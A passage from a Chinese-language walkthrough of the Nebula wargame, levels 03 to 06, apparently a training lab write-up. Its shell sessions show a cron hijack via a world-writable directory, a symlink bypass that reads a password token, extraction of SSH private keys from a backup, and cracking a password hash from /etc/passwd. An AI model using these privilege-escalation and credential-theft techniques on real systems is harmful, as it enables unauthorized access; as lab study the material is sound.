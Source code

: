 写个脚本放进777目录里，等crontab执行。运气不好要等两分钟整。

```bash
level03@nebula:/home/flag03/writable.d$ cat a
#!/bin/bash
getflag > /tmp/f03
level03@nebula:/home/flag03/writable.d$ cat /tmp/f03
You have successfully executed getflag on a target account
```

## Level 04

建个软链绕过文件名检查。

这套题里的token好像都是 flag 用户的密码。

```bash
level04@nebula:~$ ln -s /home/flag04/token a
level04@nebula:~$ /home/flag04/flag04 a
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:~$ su flag04
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 05

/home/flag05/.backup 里面有 ssh 密钥

```bash
level05@nebula:/home/flag05/.backup$ ls
backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz ~
level05@nebula:/home/flag05/.backup$ cd
level05@nebula:~$ tar tf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:~$ tar xf backup-19072011.tgz
level05@nebula:~$ ssh flag05@localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 06

全局可读文件 /etc/passwd 里面存了 flag06 用户的密码哈希值（其他的都在 /etc/shadow），看长度应该是弱密码，网上找工具暴力解得是 hello

```bash
level06@nebula:~$ cat /etc/passwd | grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
level06@nebula:~$ su flag06
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
